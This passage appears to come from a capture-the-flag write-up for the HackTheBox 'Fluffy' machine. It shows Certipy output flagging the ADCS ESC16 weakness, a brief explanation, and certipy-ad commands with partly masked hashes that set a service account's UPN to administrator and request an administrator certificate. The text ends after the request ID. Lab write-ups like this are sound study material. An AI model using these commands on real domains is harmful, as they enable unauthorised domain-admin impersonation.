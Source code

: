 ```bash
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```
{: .nolineno }

### ADCS ESC16 - Security Extension Disabled

- **What it is:** An Active Directory Certificate Services vulnerability where the security extension is globally disabled on the Certificate Authority, allowing UPN manipulation and privilege escalation.

- **Why the target is vulnerable:** The CA configuration has the security extension disabled, permitting certificate requests with arbitrary UPNs for impersonation attacks.

- **Links:**
  - [Certipy ADCS Toolkit](https://github.com/ly4k/Certipy)
  - [ESC16 Attack Guide](https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/)


**Step 3: UPN Manipulation for Administrator Certificate**
```bash
# Modify ca_svc UPN to administrator
certipy-ad account -u 'winrm_svc' -hashes 33bd09dcd697*************875767 -dc-ip 10.10.11.69 -upn administrator -user ca_svc update

# Request certificate for administrator
certipy-ad req -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092a******fc98c8 -dc-ip 10.10.11.69 -target fluffy.htb -ca fluffy-DC01-CA -template User -upn administrator@fluffy.htb -sid S-1-5-21-497550768-2797716248-2627064577

# Restore original UPN
certipy-ad account -u 'winrm_svc' -hashes 33bd09dcd697*************875767 -dc-ip 10.10.11.69 -upn ca_svc -user ca_svc update
```
{: .nolineno }

**Results with commands:**
```bash
# Modify ca_svc UPN to administrator
└─$ certipy-ad account -u 'winrm_svc' -hashes 33bd09dcd697*************875767 -dc-ip 10.10.11.69 -upn administrator -user ca_svc update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

# Request certificate for administrator

└─$ certipy-ad req -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092a******fc98c8 -dc-ip 10.10.11.69 -target fluffy.htb -ca fluffy-DC01-CA -template User -upn administrator@fluffy.htb -sid S-1-5-21-497550768-2797716248-2627064577 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 35
```